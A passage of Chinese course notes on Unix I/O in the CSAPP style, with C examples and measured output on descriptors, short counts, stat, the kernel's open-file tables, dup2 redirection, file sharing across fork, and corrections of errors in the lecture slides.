win.txt: ASCII text, with CRLF line terminatorscat -v 把不可打印的字符显示成 ^ 加一个字母，0x0d 是 Ctrl-M，所以显示成 ^M。这个多出来的 \r 会带来实际的麻烦：shell 脚本的第一行 #!/bin/sh\r 找不到解释器，比较字符串时 "yes\r" 不等于 "yes"。
目录是一个“链接”的数组，每个链接把一个文件名映射到一个文件（课件 p.8）。每个目录至少有两项：. 指向自己，.. 指向上一级目录。所有文件组织成一棵以根目录 / 为根的树（课件 p.9），内核为每个进程维护一个当前工作目录，cd 命令改变的就是它。文件的位置用路径名表示（课件 p.10）：绝对路径从 / 开始，例如 /home/droh/hello.c；相对路径从当前工作目录开始，例如当前目录是 /home/bryant 时，../droh/hello.c 指的是同一个文件。这些在 L0 讲义第一部分已经讲过。
18.3 打开、关闭与读写（课件 p.11–14）#
打开与关闭#
打开文件就是通知内核：要开始访问这个文件了（课件 p.11）。
int open(char *filename, int flags, mode_t mode);
/* 成功返回新描述符，出错返回 -1 */open 返回一个小的非负整数，叫描述符（file descriptor），后面的 read、write、close 都用它指代这个打开的文件。内核分配描述符的规则很简单：返回当前没有打开的最小描述符。shell 创建的每个进程一开始就有三个打开的文件，都连到终端：描述符 0 是标准输入，1 是标准输出，2 是标准错误。所以一个程序第一次 open 通常得到 3。
flags 说明打算怎样访问：O_RDONLY 只读、O_WRONLY 只写、O_RDWR 可读可写，三者选一；还可以用按位或加上 O_CREAT（文件不存在就创建一个空文件）、O_TRUNC（文件已存在就把它截断为空）、O_APPEND（每次写之前把文件位置移到末尾）。mode 只在创建新文件时有意义，指定新文件的访问权限，实际得到的权限是 mode & ~umask，与 L0 讲义 2.4 节的 umask 规则相同。例如 umask 为 022 时，open("foo.txt", O_WRONLY|O_CREAT|O_TRUNC, 0666) 创建的文件是 644。
关闭文件就是通知内核：访问结束了（课件 p.12）。close 成功返回 0，出错返回 −1。关闭一个已经关闭的描述符会出错：在默认环境上对同一个描述符 close 两次，第二次返回 −1，errno 为 EBADF（Bad file descriptor）。课件特别提醒，在多线程程序中这样做是灾难：描述符关闭后，它的编号可能马上被另一个线程的 open 分走，这时第二次 close 关掉的是别人的文件，而且不会报错。所以即使是 close 这样看起来不会出错的函数，也要检查返回值。
常见问题：一个进程最多能同时打开多少个文件？
上限由资源限制 RLIMIT_NOFILE 决定，在 shell 中用 ulimit -n 查看，程序中用 getrlimit 读取。Linux 发行版的常见默认值是 1024，默认环境的容器设成了 20000。下面的程序不停地打开 /dev/null 而不关闭。先用 ulimit -n 1024 把限制改成 1024 再运行，输出是“软限制 1024，硬限制 1024”和“又打开了 1021 次，最后一个描述符是 1023；再 open 返回 -1，errno = 24 (Too many open files)”：0、1、2 已经被占用，所以只能再打开 1021 个，描述符的编号最大是限制减 1，用完之后 open 失败，errno 为 EMFILE。
这就是忘记 close 的后果。一个只运行一会儿的程序结束时，内核会关闭它打开的所有文件，看不出问题；shell、服务器这类长时间运行的程序，每处理一次请求漏关一个描述符，描述符就会一点点“泄漏”，最终再也打不开任何文件。Shell Lab 中为重定向打开的文件，shell 自己用完都要关掉（18.12 节）。
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <string.h>
#include <sys/resource.h>
int main(void)
{
struct rlimit r;
getrlimit(RLIMIT_NOFILE, &r);
printf("软限制 %ld，硬限制 %ld\n", (long)r.rlim_cur, (long)r.rlim_max);
int fd, last = -1, n = 0;
while ((fd = open("/dev/null", O_RDONLY)) >= 0) { /* 只开不关 */
last = fd;
n++;
}
printf("又打开了 %d 次，最后一个描述符是 %d；再 open 返回 %d，errno = %d (%s)\n",
n, last, fd, errno, strerror(errno));
return 0;
}读与写#
read 从当前文件位置开始，把最多 n 个字节复制到内存，然后把文件位置向后移；write 反过来，把内存中最多 n 个字节写到当前文件位置（课件 p.13–14）。
ssize_t read(int fd, void *buf, size_t n);
/* 返回读到的字节数；EOF 返回 0；出错返回 -1 */
ssize_t write(int fd, const void *buf, size_t n);
/* 返回写出的字节数；出错返回 -1 */返回值的类型 ssize_t 是有符号的 64 位整数，参数 n 的类型 size_t 是无符号的。返回值必须有符号，因为它要用 −1 表示出错；也正因为如此，判断出错要写 < 0。read 返回 0 表示遇到了文件末尾（end-of-file，EOF）：EOF 不是文件中的某个字符，而是“文件位置已经到达末尾、再也读不到字节”这一状态。返回值小于 n 也不一定是出错，这就是下一节的“不足值”。
⚠ 课件 p.14 的括号放错了
课件 p.14 写的是 if ((nbytes = write(fd, buf, sizeof(buf)) < 0) {。数一数括号：< 的优先级高于 =，这一句先算 write(...) < 0，得到 0 或 1，再把这个比较结果赋给 nbytes。write 成功时 nbytes 是 0 而不是写出的字节数。正确的写法是 if ((nbytes = write(fd, buf, sizeof(buf))) < 0)，与 p.13 的 read 一样。另外 p.13–14 把 nbytes 声明成 int，严格说应当是 ssize_t。
要不要检查返回值#
研讨题 1（3）问的正是这个问题。下面的 openclose 打开命令行参数所指的文件，不做任何检查就读和关闭：
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
int main(int argc, char *argv[])
{
char buf[16];
int fd = open(argv[1], O_RDONLY); /* 不做错误检查 */
ssize_t n = read(fd, buf, sizeof(buf));
printf("fd = %d, read 返回 %zd, errno = %d (%s)\n", fd, n, errno, strerror(errno));
int r = close(fd);
printf("close 返回 %d\n", r);
return 0;
}在默认环境上用一个不存在的文件名运行它：
$ ./openclose nosuch
fd = -1, read 返回 -1, errno = 9 (Bad file descriptor)
close 返回 -1open 返回 −1，程序却没有发现，继续拿 −1 去 read 和 close，每一步都悄悄失败。这时 errno 已经被 read 改成了 EBADF，open 失败的真正原因（ENOENT，文件不存在）反而丢了。用课件 p.11–12 的写法检查每一个返回值，open 一失败就用 perror 打印原因并退出。openclose2 还故意把同一个描述符关闭两次：
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
int main(int argc, char *argv[])
{
int fd, retval;
if ((fd = open(argv[1], O_RDONLY)) < 0) { /* 课件 p.11 的写法 */
perror("open");
exit(1);
}
printf("fd = %d\n", fd);
if ((retval = close(fd)) < 0) { /* 课件 p.12 的写法 */
perror("close");
exit(1);
}
if ((retval = close(fd)) < 0) { /* 再关一次 */
perror("close");
exit(1);
}
return 0;
}用不存在的文件名运行，第一步就停下来：
$ ./openclose2 nosuch
open: No such file or directorycsapp.c 的包装函数（Open、Read、Write……）把这种检查都封装好了，出错时调用 unix_error 打印“Open error: No such file or directory”之类的信息。要注意，教材 csapp.c 中的 unix_error 以 exit(0) 结束，进程的退出状态是 0，在 shell 里看起来像是成功了（第 16 讲 16.4 节）。
18.4 不足值与“自己做缓冲”（课件 p.15–17）#
read 和 write 传送的字节数可能比要求的少，这叫不足值（short count）。不足值不是错误（课件 p.16、p.41）。会出现不足值的情况有三种：读的时候遇到 EOF；从终端读文本行；读写网络套接字（以及管道）。不会出现不足值的情况是：读磁盘文件（除非遇到 EOF）和写磁盘文件。默认环境上的实验可以看到前两种。short 让子进程往管道里分两次写入 hello 和 world，中间停 0.2 秒，父进程从管道读；ttyread 从终端读三次：
#include "csapp.h"
int main(void)
{
int p[2];
char buf[100];
if (pipe(p) < 0) unix_error("pipe");
if (Fork() == 0) {
Close(p[0]);
Write(p[1], "hello", 5);
usleep(200000);
Write(p[1], "world", 5);
exit(0);
}
Close(p[1]);
ssize_t n = read(p[0], buf, 10);
printf("read(fd, buf, 10) 返回 %zd\n", n);
n = rio_readn(p[0], buf, 10);
printf("rio_readn(fd, buf, 10) 返回 %zd（读到 EOF 才停）\n", n);
n = read(p[0], buf, 10);
printf("再 read 一次 返回 %zd（EOF）\n", n);
return 0;
}#include <stdio.h>
#include <unistd.h>
int main(void)
{
char buf[100];
for (int i = 0; i < 3; i++) {
ssize_t n = read(0, buf, sizeof(buf));
printf("read(0, buf, 100) 返回 %zd\n", n);
if (n <= 0) break;
}
return 0;
}在默认环境上运行，输出如下：
$ ./short # 从管道读，写端先写 hello，0.2 秒后再写 world
read(fd, buf, 10) 返回 5
rio_readn(fd, buf, 10) 返回 5（读到 EOF 才停）
再 read 一次 返回 0（EOF）
$ ./ttyread # 在终端上依次输入 hello、ab、Ctrl-D
hello
read(0, buf, 100) 返回 6
ab
read(0, buf, 100) 返回 3
read(0, buf, 100) 返回 0从管道读时，管道里此刻只有 5 个字节，read 不等后面的数据，拿到 5 个就返回。从终端读时，终端驱动程序一行一行地交给程序，read 每次只拿到一行（包括换行符），输入 Ctrl-D 时返回 0。课件的建议是：任何时候都要考虑到不足值。18.10 节的 rio_readn 就是为此而写的，它会反复调用 read，直到读满 n 个字节或遇到 EOF。上面第二行的 rio_readn 读到的是剩下的 world：它没有在拿到 5 个字节时返回，而是继续等待，直到写端退出、管道关闭（EOF）才返回 5。另一个实验中写端分三次写入 hello、world、!!，rio_readn(fd, buf, 10) 一次返回 10 个字节 helloworld，中间等了一次。
常见问题：EOF 是文件末尾的一个特殊字符吗？
不是。18.3 节说过，EOF 是“文件位置已经到达末尾、再也读不到字节”这一状态，read 用返回 0 表示它；文件中并没有一个表示结束的字节，任何字节值（包括 0 和 0xFF）都可以出现在文件中间。在终端上按 Ctrl-D 也不是输入了一个字符，而是让终端驱动程序把当前已输入的内容交给 read，内容为空时 read 就返回 0，上面 ttyread 的第三次 read 就是这样。
标准 I/O 中的 EOF 则是一个宏，值为 −1，是 getchar、fgetc 没有数据可读时返回的值。它必须和 0 到 255 的所有字节值区分开，所以这些函数的返回值是 int 而不是 char。常见的错误是用 char 变量接收它，例如下面的程序。把 a、b、0xFF、c、d 五个字节送给它（printf 'ab\xffcd' | ./eofc），在默认环境上输出“读到 2 个字节”：x86-64 上的 char 是有符号的，0xFF 存进 c 变成 −1，与 EOF 相等，循环提前结束。把 c 改成 int 之后，正确地输出“读到 5 个字节”。在 char 是无符号数的平台上，例如 ARM 上的 Linux，同样的错误表现正好相反：c 永远不可能等于 −1，循环停不下来，在一台 aarch64 的 Linux 上实测正是如此。
#include <stdio.h>
int main(void)
{
char c; /* 错误：应当是 int c; */
int n = 0;
while ((c = getchar()) != EOF)
n++;
printf("读到 %d 个字节\n", n);
return 0;
}课件 p.15 和 p.17 的两个程序都把一个文件复制到标准输出，区别只在每次读写多少字节。showfile1_nobuf 每次 read 和 write 一个字节；showfile2_buf 每次读写 64 个字节。p.38 和 p.49 还有分别用标准 I/O 和 RIO 写的同一个程序。四个程序如下，它们都在没有命令行参数时从标准输入读：
#include "csapp.h"
int main(int argc, char *argv[])
{
char c;
int infd = STDIN_FILENO;
if (argc == 2) {
infd = Open(argv[1], O_RDONLY, 0);
}
while (Read(infd, &c, 1) != 0)
Write(STDOUT_FILENO, &c, 1);
exit(0);
}#include "csapp.h"
#define BUFSIZE 64
int main(int argc, char *argv[])
{
char buf[BUFSIZE];
int infd = STDIN_FILENO;
ssize_t nread; /* 课件 p.17 漏了这一行声明 */
if (argc == 2) {
infd = Open(argv[1], O_RDONLY, 0);
}
while ((nread = Read(infd, buf, BUFSIZE)) != 0)
Write(STDOUT_FILENO, buf, nread);
exit(0);
}#include "csapp.h"
#define MLINE 1024
int main(int argc, char *argv[])
{
char buf[MLINE];
FILE *infile = stdin;
if (argc == 2) {
infile = fopen(argv[1], "r");
if (!infile) exit(1);
}
while (fgets(buf, MLINE, infile) != NULL)
fprintf(stdout, "%s", buf); /* 课件 p.38 写成 fprintf(stdout, buf) */
exit(0);
}#include "csapp.h"
#define MLINE 1024
int main(int argc, char *argv[])
{
rio_t rio;
char buf[MLINE];
int infd = STDIN_FILENO;
ssize_t nread = 0;
if (argc == 2) {
infd = Open(argv[1], O_RDONLY, 0);
}
Rio_readinitb(&rio, infd);
while ((nread = Rio_readlineb(&rio, buf, MLINE)) != 0)
Rio_writen(STDOUT_FILENO, buf, nread);
exit(0);
}用 strace 数一数它们复制一个 77 字节、6 行的文件时各做了几次系统调用（表 2）。
表 2 四个 showfile 程序复制 77 字节文件时的系统调用次数（strace 实测）
| 程序 | 每次请求 | read 次数 | write 次数 | 说明 |
|---|---|---|---|---|
| showfile1_nobuf（p.15） | 1 字节 | 78 | 77 | 77 次读到数据，最后 1 次返回 0 |
| showfile2_buf（p.17） | 64 字节 | 3 | 2 | 读到 64、13、0 字节 |
| showfile3_stdio（p.38） | 一行 | 2 | 1 | stdio 一次读 4096 字节；输出到文件时只 write 1 次，输出到终端时 write 6 次 |
| showfile4_rio（p.49） | 一行 | 2 | 6 | RIO 一次读 8192 字节；每行 rio_writen 一次 |
逐字节读写要进入内核 155 次，而成块读写只要 5 次。每次系统调用都要从用户模式陷入内核再返回，课件 p.35 估计一次要上万个时钟周期，所以逐字节的版本慢得多。这就是“缓冲”的动机：用一次 read 取一大块数据放在用户空间的缓冲区里，程序再从缓冲区里一个一个地拿。showfile2_buf 是自己做的最简单的缓冲，标准 I/O 和 RIO 则把它做成了通用的库（18.9、18.10 节）。
⚠ 课件 p.17 与 p.38 的代码各有一处错误
p.17 的 showfile2_buf 用了变量 nread，却没有声明，照抄编译会报错；应当加上 ssize_t nread;。p.38 的 showfile3_stdio 写的是 fprintf(stdout, buf)，把读进来的一行直接当作格式串：如果文件中有 %d、%s 之类的字符，printf 会去取并不存在的参数，输出乱码甚至崩溃，gcc 也会对此给出警告。应当写成 fprintf(stdout, "%s", buf) 或 fputs(buf, stdout)。讲义的实验用的都是改正后的程序。
18.5 文件的元数据：stat（课件 p.19–20）#
元数据是关于数据的数据（课件 p.19）。对文件来说，就是文件内容以外的信息：类型、权限、大小、所有者、修改时间等。内核为每个文件维护这些信息，程序用 stat 或 fstat 读取，前者以文件名为参数，后者以描述符为参数：
int stat(const char *filename, struct stat *buf);
int fstat(int fd, struct stat *buf); /* 成功返回 0，出错返回 -1 */struct stat 中最常用的是 st_size（文件的字节数）和 st_mode。st_mode 同时编码了两样东西：文件类型和权限位。类型用宏判断，S_ISREG 判断普通文件，S_ISDIR 判断目录，S_ISSOCK 判断套接字；权限位就是 L0 讲义 2.2 节的九个位，每个位有一个宏，例如 S_IRUSR（所有者读，八进制 0400）、S_IWUSR（所有者写，0200）、S_IXUSR（所有者执行，0100），组和其他人对应 S_IRGRP、S_IROTH 等。ls -l 显示的类型和九个权限字符，就是从 st_mode 中解出来的。
课件 p.20 的 statcheck 读取命令行参数所指文件的 st_mode，报告类型和所有者是否有读权限：
#include "csapp.h"
int main(int argc, char **argv)
{
struct stat stat;
char *type, *readok;
Stat(argv[1], &stat);
if (S_ISREG(stat.st_mode)) /* Determine file type */
type = "regular";
else if (S_ISDIR(stat.st_mode))
type = "directory";
else
type = "other";
if ((stat.st_mode & S_IRUSR)) /* Check read access */
readok = "yes";
else
readok = "no";
printf("type: %s, read: %s\n", type, readok);
exit(0);
}在默认环境上以普通用户运行：
$ ./statcheck statcheck.c
type: regular, read: yes
$ chmod 000 statcheck.c
$ ls -l statcheck.c
---------- 1 ubuntu ubuntu 495 Nov 22 11:25 statcheck.c
$ ./statcheck statcheck.c
type: regular, read: no
$ cat statcheck.c
cat: statcheck.c: Permission denied
$ ./statcheck ..
type: directory, read: yes
$ ./statcheck /dev/null
type: other, read: yeschmod 000 把三组权限全部清空，所有者、组和其他人都不能读、写、执行这个文件，于是 statcheck 报告 read: no，cat 也读不了。000 可以换成任意三位八进制数，每一位对应一组（L0 讲义 2.2 节），例如 400 只允许所有者读，644 是普通文件的默认权限。注意文件被设为 000 之后，stat 仍然能取得它的元数据：stat 需要的是对所在目录的访问权限，而不是对文件本身的读权限。/dev/null 是字符设备，不是普通文件也不是目录，所以报告 other。
⚠ statcheck 检查的是“所有者能不能读”，不是“我能不能读”
statcheck 只看 S_IRUSR 这一位。如果运行者不是文件的所有者，这一位与他能否读取无关：普通用户运行 ./statcheck /etc/shadow，得到 read: yes，因为 /etc/shadow 的权限是 rw-r-----，所有者 root 可读，而普通用户实际上读不了。反过来，chmod 044 之后所有者自己读不了，组和其他人却能读。要判断当前进程能否读一个文件，应当用 access(filename, R_OK)，或者直接 open 看是否失败。另外以 root 运行时权限检查几乎不起作用（L0 讲义 2.4 节），所以上面的实验要以普通用户做。
18.6 内核怎样表示打开的文件（课件 p.21–24）#
内核用三张表表示打开的文件（图 2，课件 p.21）。
第一张是描述符表（descriptor table），每个进程一张，以描述符为下标，每一项指向打开文件表中的一项。描述符其实就是这张表的下标。
第二张是打开文件表（open file table），整个系统一张，所有进程共享。每打开一次文件就有一项，记录这次打开的当前文件位置（File pos）、访问方式，以及引用计数 refcnt，即有多少个描述符表项指向它。
第三张是 v-node 表（v-node table），整个系统一张，所有进程共享。每个文件一项，记录的是文件本身的信息，大部分就是 stat 中的内容：访问权限、大小、类型等。
图 2 内核表示打开文件的三张表：(a) 两个描述符指向两个不同的文件（课件 p.21）；(b) 同一个文件打开两次（课件 p.22）
三张表各在什么时候变化，可以按操作来看。open 时，内核在描述符表中找到最小的空闲项，在打开文件表中新建一项（文件位置为 0，refcnt 为 1），并让它指向该文件的 v-node（文件已经被打开过时，v-node 已经存在，直接共用）。read 和 write 只改变打开文件表项中的文件位置，写操作还可能改变 v-node 中的文件大小。close 时，内核释放描述符表中的那一项，把对应的打开文件表项的 refcnt 减 1；减到 0 时，这一项才被释放。
图中最重要的一点是：文件位置保存在打开文件表项中，而不是在描述符或 v-node 中。由此可以推出所有共享的规则。同一个文件 open 两次（图 2 (b)，课件 p.22），得到两个打开文件表项，指向同一个 v-node：两个描述符各有各的文件位置，互不影响。反过来，两个描述符如果指向同一个打开文件表项，它们就共享文件位置，一个读了，另一个的位置也跟着前进。后一种情况由 fork 和 dup2 产生。
常见问题：一个文件正被某个程序打开着，这时把它删掉会怎样？
rm 调用的是 unlink，它删除的是目录中的那一项，也就是从文件名到文件的链接（18.2 节），既不动打开文件表项，也不动 v-node。已经打开这个文件的进程，描述符仍然指向原来的打开文件表项，照样可以读写。下面的程序打开 tmp.txt 后立刻 unlink 它，在默认环境上，access 报告“不存在了”，ls 也看不到这个文件，但从 fd 3 仍读到了 12 个字节“hello, file”，/proc/self/fd/3 显示为“…/tmp.txt (deleted)”。
文件的内容和它占用的磁盘空间，要等到最后一个指向它的打开文件表项被释放（最后一个描述符关闭）时才真正回收。这解释了一个常见的现象：删掉一个正在被写入的大日志文件，磁盘空间却没有变多，要等写它的程序关闭文件或者退出之后才会释放。
#include "csapp.h"
int main(void)
{
char buf[16], path[64], target[128];
int fd = Open("tmp.txt", O_RDONLY, 0);
unlink("tmp.txt"); /* 删除目录项，相当于 rm tmp.txt */
printf("unlink 之后 access：%s\n",
access("tmp.txt", F_OK) == 0 ? "还在" : "不存在了");
ssize_t n = Read(fd, buf, sizeof buf - 1);
buf[n] = '\0';
printf("从 fd %d 仍读到 %zd 个字节：%s", fd, n, buf);
sprintf(path, "/proc/self/fd/%d", fd);
n = readlink(path, target, sizeof target - 1);
target[n] = '\0';
printf("%s -> %s\n", path, target);
Close(fd);
return 0;
}子进程会继承父进程打开的文件（课件 p.23–24）。fork 时内核复制父进程的描述符表，父子进程的表项指向同一批打开文件表项，每一项的 refcnt 加 1（图 3）。因此父子进程共享文件位置。在默认环境上，父进程打开 abcde.txt 后 fork，子进程先读一个字节，父进程等子进程结束后再读：
#include "csapp.h"
int main(void)
{
char c;
int fd = Open("abcde.txt", O_RDONLY, 0);
if (Fork() == 0) {
Read(fd, &c, 1);
printf("child read %c\n", c);
exit(0);
}
Wait(NULL);
Read(fd, &c, 1);
printf("parent read %c\n", c);
return 0;
}子进程读到 a，父进程读到的是 b 而不是 a。execve 不改变描述符表，新程序继续使用这些打开的文件，shell 的重定向正是利用这一点（18.7 节）；如果不希望某个描述符被新程序继承，可以用 fcntl 设置 FD_CLOEXEC 标志，或者 open 时加 O_CLOEXEC。
图 3 fork 之后：子进程得到父进程描述符表的副本，共享打开文件表项（课件 p.24）
Linux 的 /proc/self/fd 目录列出当前进程的每个描述符指向哪个文件，/proc/self/fdinfo/N 的第一行是描述符 N 对应的文件位置。用它们可以直接看到上面的规则。下面的程序把 abcde.txt 打开两次，从 fd 3 读两个字节，然后 dup2(3, 4)，再从 fd 4 读一个字节。show 函数在每一步之后列出 fd 0–5 指向的文件和文件位置：
#include "csapp.h"
static void show(const char *tag)
{
char path[64], target[256], info[256];
printf("%s\n", tag);
for (int fd = 0; fd < 6; fd++) {
sprintf(path, "/proc/self/fd/%d", fd);
ssize_t n = readlink(path, target, sizeof(target) - 1);
if (n < 0) continue;
target[n] = '\0';
sprintf(path, "/proc/self/fdinfo/%d", fd);
FILE *f = fopen(path, "r");
fgets(info, sizeof(info), f); /* 第一行是 pos: N */
fclose(f);
info[strcspn(info, "\n")] = '\0';
printf(" fd %d -> %-22s %s\n", fd, target, info);
}
fflush(stdout);
}
int main(void)
{
char c;
int fd3 = Open("abcde.txt", O_RDONLY, 0);
int fd4 = Open("abcde.txt", O_RDONLY, 0);
Read(fd3, &c, 1); Read(fd3, &c, 1);
show("两次 open 同一个文件，fd 3 读了 2 个字节：");
Dup2(fd3, fd4);
show("dup2(3, 4) 之后：");
Read(fd4, &c, 1);
show("从 fd 4 读 1 个字节（读到的是 c）之后：");
printf(" 读到 %c\n", c);
return 0;
}在默认环境上运行，输出如下：
两次 open 同一个文件，fd 3 读了 2 个字节：
fd 0 -> /dev/pts/0 pos: 0
fd 1 -> /dev/pts/0 pos: 0
fd 2 -> /dev/pts/0 pos: 0
fd 3 -> /tmp/d/abcde.txt pos: 2
fd 4 -> /tmp/d/abcde.txt pos: 0
dup2(3, 4) 之后（fd 0–2 不变，略去）：
fd 3 -> /tmp/d/abcde.txt pos: 2
fd 4 -> /tmp/d/abcde.txt pos: 2
从 fd 4 读 1 个字节（读到的是 c）之后（略去 fd 0–2）：
fd 3 -> /tmp/d/abcde.txt pos: 3
fd 4 -> /tmp/d/abcde.txt pos: 3两次 open 得到的 fd 3 和 fd 4 位置不同；dup2 之后 fd 4 指向 fd 3 的表项，位置一样，从 fd 4 读，fd 3 的位置也跟着变成 3。0、1、2 三个描述符都指向同一个终端 /dev/pts/0。
18.7 I/O 重定向与 dup2（课件 p.25–27）#
shell 怎样实现 ls > foo.txt，让 ls 的输出进入文件而不是终端（课件 p.25）？ls 程序本身只管往描述符 1 写，它并不知道描述符 1 指向哪里。所以 shell 只要在运行 ls 之前，让描述符 1 指向 foo.txt 即可。完成这件事的是 dup2：
int dup2(int oldfd, int newfd); /* 成功返回 newfd，出错返回 -1 */
int dup(int oldfd); /* 返回最小的空闲描述符，它与 oldfd 指向同一项 */dup2 把描述符表的第 oldfd 项复制到第 newfd 项，覆盖 newfd 原来的内容。如果 newfd 原来是打开的，dup2 先把它关闭，这个关闭会使原来那个打开文件表项的 refcnt 减 1。参数顺序可以这样记：dup2(old, new) 之后，new 成为 old 的副本。
shell 实现 ls > foo.txt 分两步（图 4，课件 p.26–27）。第一步，在 fork 出来、还没有 execve 的子进程中打开 foo.txt，假设得到描述符 4。第二步，调用 dup2(4, 1)：描述符 1 改为指向 foo.txt 的打开文件表项，该项 refcnt 变成 2；描述符 1 原来指向的终端表项 refcnt 减 1（课件的图中减到 0，被释放）。此后再 execve("/bin/ls", ...)，ls 往描述符 1 写的内容就进了 foo.txt。
图 4 dup2(4, 1) 前后的三张表（课件 p.25–27）
在默认环境上把这两步写成一个小程序：子进程中 open、dup2、关闭多余的描述符、execve 运行 ls -1 /，父进程等待它结束。
#include "csapp.h"
int main(void)
{
char *argv[] = { "/bin/ls", "-1", "/", NULL };
pid_t pid;
if ((pid = Fork()) == 0) {
int fd = Open("foo.txt", O_WRONLY | O_CREAT | O_TRUNC, 0644);
Dup2(fd, STDOUT_FILENO); /* fd 1 现在指向 foo.txt */
Close(fd); /* 原来的 fd 不再需要 */
Execve(argv[0], argv, environ);
}
Waitpid(pid, NULL, 0);
printf("ls 的输出已写入 foo.txt：\n");
return 0;
}运行后终端上看不到 ls 的输出，foo.txt 中有 26 行，正是根目录下的 26 个名字。dup2 之后要 close 原来的描述符，否则 ls 会带着一个用不到的描述符 4 运行；对 Shell Lab 来说，这也意味着 shell 自己不能留下打开着的文件（18.12 节）。
18.8 三个程序示例（课件 p.28–31、p.56–58）#
课件用三个程序综合检验上面的规则，研讨题 1（9）和 2（7）都要求逐个讲解。文件 abcde.txt 的内容是 abcde 五个字符。
ffiles1：两次 open 与 dup2#
#include "csapp.h"
int main(int argc, char *argv[])
{
int fd1, fd2, fd3;
char c1, c2, c3;
char *fname = argv[1];
fd1 = Open(fname, O_RDONLY, 0);
fd2 = Open(fname, O_RDONLY, 0);
fd3 = Open(fname, O_RDONLY, 0);
Dup2(fd2, fd3);
Read(fd1, &c1, 1);
Read(fd2, &c2, 1);
Read(fd3, &c3, 1);
printf("c1 = %c, c2 = %c, c3 = %c\n", c1, c2, c3);
return 0;
}ffiles1 对同一个文件 open 三次，得到 fd1、fd2、fd3 三个独立的打开文件表项（位置都是 0）。Dup2(fd2, fd3) 让 fd3 改为指向 fd2 的表项，fd3 原来的表项被释放。然后从 fd1、fd2、fd3 各读一个字节。fd1 有自己的位置，读到 a；fd2 读到 a，共享的位置变成 1；fd3 与 fd2 共享位置，读到 b。默认环境上的输出与课件 p.29 相同：
c1 = a, c2 = a, c3 = bffiles2：fork 之后共享文件位置#
#include "csapp.h"
int main(int argc, char *argv[])
{
int fd1;
int s = getpid() & 0x1;
char c1, c2;
char *fname = argv[1];
fd1 = Open(fname, O_RDONLY, 0);
Read(fd1, &c1, 1);
if (fork()) { /* Parent */
sleep(s);
Read(fd1, &c2, 1);
printf("Parent: c1 = %c, c2 = %c\n", c1, c2);
} else { /* Child */
sleep(1-s);
Read(fd1, &c2, 1);
printf("Child: c1 = %c, c2 = %c\n", c1, c2);
}
return 0;
}ffiles2 先打开文件、读一个字节到 c1（a），再 fork；父子进程各睡一会儿，再各读一个字节到 c2。因为 fork 之后父子进程共享同一个打开文件表项，c1 都是 a，c2 一个是 b、一个是 c：先读的得到 b，后读的得到 c。谁先读由 s = getpid() & 0x1 决定。s 在 fork 之前由父进程计算，子进程继承的是同一个值；父进程睡 s 秒，子进程睡 1 − s 秒。父进程的 PID 是偶数时 s = 0，父进程先读，输出 Parent: c1 = a, c2 = b 和 Child: c1 = a, c2 = c；PID 是奇数时反过来。课件 p.31 列出的正是这四行，问题“Which way does it go?”的答案就取决于父进程 PID 的奇偶。
在默认环境上给程序加一行打印父进程的 PID，连续运行 6 次，结果完全符合这一规则：
parent pid = 447, s = 1 Child: c1 = a, c2 = b Parent: c1 = a, c2 = c
parent pid = 452, s = 0 Parent: c1 = a, c2 = b Child: c1 = a, c2 = c
parent pid = 456, s = 0 Parent: c1 = a, c2 = b Child: c1 = a, c2 = c
parent pid = 461, s = 1 Child: c1 = a, c2 = b Parent: c1 = a, c2 = c
parent pid = 465, s = 1 Child: c1 = a, c2 = b Parent: c1 = a, c2 = c
parent pid = 470, s = 0 Parent: c1 = a, c2 = b Child: c1 = a, c2 = c程序没有 wait 子进程。父进程先读时，它打印完就结束了，shell 立即显示提示符，大约 1 秒后子进程的输出才出现在提示符后面。这是第 16 讲 16.10 节说过的现象，与文件共享无关。
ffiles3：O_APPEND 与 dup#
#include "csapp.h"
int main(int argc, char *argv[])
{
int fd1, fd2, fd3;
char *fname = argv[1];
fd1 = Open(fname, O_CREAT|O_TRUNC|O_RDWR, S_IRUSR|S_IWUSR);
Write(fd1, "pqrs", 4);
fd3 = Open(fname, O_APPEND|O_WRONLY, 0);
Write(fd3, "jklmn", 5);
fd2 = dup(fd1); /* Allocates descriptor */
Write(fd2, "wxyz", 4);
Write(fd3, "ef", 2);
return 0;
}ffiles3 关心的是写（课件 p.58）。逐步跟踪文件内容和各描述符的位置：
表 3 ffiles3 逐步执行时文件的内容（默认环境实测 fd1 = 3、fd3 = 4、fd2 = 5）
| 语句 | 文件内容 | 说明 |
|---|---|---|
| fd1 = Open(…O_CREAT|O_TRUNC|O_RDWR…) | （空） | 创建或截断为空，fd1 的位置为 0 |
| Write(fd1, "pqrs", 4) | pqrs | fd1 的位置变为 4 |
| fd3 = Open(…O_APPEND|O_WRONLY…) | pqrs | 新的表项，带 O_APPEND 标志 |
| Write(fd3, "jklmn", 5) | pqrsjklmn | O_APPEND：先移到末尾（4）再写 |
| fd2 = dup(fd1) | pqrsjklmn | fd2 与 fd1 共享表项，位置是 4 |
| Write(fd2, "wxyz", 4) | pqrswxyzn | 从位置 4 写，覆盖了 jklm；fd1、fd2 的位置变为 8 |
| Write(fd3, "ef", 2) | pqrswxyznef | O_APPEND：先移到末尾（9）再写 |
最后文件的内容是 pqrswxyznef，共 11 个字节，与默认环境上 od -c 的结果一致。这里有两点要注意。第一，O_APPEND 不是“打开时把位置移到末尾”，而是每次写之前都移到当时的文件末尾：不论别的描述符把文件写成了多长，经 fd3 写入的内容总是接在最后。第二，dup 得到的 fd2 与 fd1 共享位置 4，所以 wxyz 覆盖了 fd3 写入的 jklm。
18.9 标准 I/O：流与缓冲（课件 p.33–38）#
C 标准库（libc.so）提供了一组高层的标准 I/O 函数（课件 p.33）：fopen、fclose 打开和关闭文件；fread、fwrite 读写字节；fgets、fputs 读写文本行；fscanf、fprintf 做格式化的读写。研讨题 2（1）要求逐个说明它们的功能，表 4 把它们与对应的 Unix I/O 函数放在一起。
表 4 常用的标准 I/O 函数及其对应的 Unix I/O 函数
| 标准 I/O | 功能 | 底层用到的 Unix I/O |
|---|---|---|
| fopen、fclose | 打开、关闭文件，得到或释放一个 FILE 流 | open、close |
| fread、fwrite | 读写若干个固定大小的数据项（二进制数据） | read、write |
| fgetc、fputc（getc、putc） | 读写一个字符 | 缓冲区为空或满时 read、write |
| fgets、fputs | 读一行（含换行符，最多 n−1 个字符）、写一个字符串 | 同上 |
